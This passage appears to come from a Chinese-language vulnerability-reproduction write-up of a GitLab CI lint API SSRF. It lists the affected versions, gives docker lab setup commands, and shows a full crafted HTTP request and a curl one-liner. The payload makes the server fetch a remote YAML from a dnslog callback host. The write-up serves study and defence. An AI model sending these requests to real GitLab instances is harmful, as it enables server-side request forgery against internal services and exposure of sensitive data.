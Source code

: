 Gitlab的CI lint API用于验证提供给gitlab ci的配置文件是否是yaml格式。而根据其说明文档，其include 操作支持remote选项，用于获取远端的yaml。因此在此处将remote参数设置为本地回环地址，同时由于后端会检查最后扩展名，加上?test.yaml 即可绕过。远程攻击者可通过发送特殊构造的 HTTP 请求，欺骗应用程序向任意系统发起请求。攻击者成功利用该漏洞可获得敏感数据的访问权限或向其他服务器发送恶意请求。  
  
该漏洞影响以下版本gitlab：  
  
10.5 <= GitLab < 13.10.5  
  
13.11 <= GitLab < 13.11.5  
  
13.12 <= GitLab < 13.12.2  
### 二、环境搭建  
  
采用 13.11.4 版本来复现  
```
sudo docker pull gitlab/gitlab-ce:13.11.4-ce.0
sudo docker run -it -p 443:443 -p 80:80 -p 222:22 -d image_id
```  
### 三、漏洞复现  
  
发送如下数据包：  
```
POST /api/v4/ci/lint HTTP/1.1
Host: 10.211.55.5
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
User-Agent: python-requests/2.25.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/json
Content-Length: 111

{ "include_merged_yaml": true, "content":"include:\n remote: http://zuujki.dnslog.cn/api/v1/targets/?test.yml"}
```  
  
dnslog上收到请求：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcV6MCD1FLSoUTs8tHSpzJ9CQGAUaEjica7yKG4FJ3ob529xUYR8vKqdg/640?wx_fmt=png&from=appmsg "")  
  
或者命令行执行：  
```
curl -s --show-error -H 'Content-Type: application/json' http://10.211.55.5/api/v4/ci/lint --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://ocmnxo.dnslog.cn/api/v1/targets/?test.yml"}'
```  
  
dnslog收到请求：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKc8OX5Vybw278QmRRvjic2x4vdYjnvUibPolKfoZoy8A1tyu8eFNlNY2ng/640?wx_fmt=png&from=appmsg "")  
## 0x06  ExifTool未授权远程命令执行（CVE-2021-22205）  
### 一、漏洞描述  
  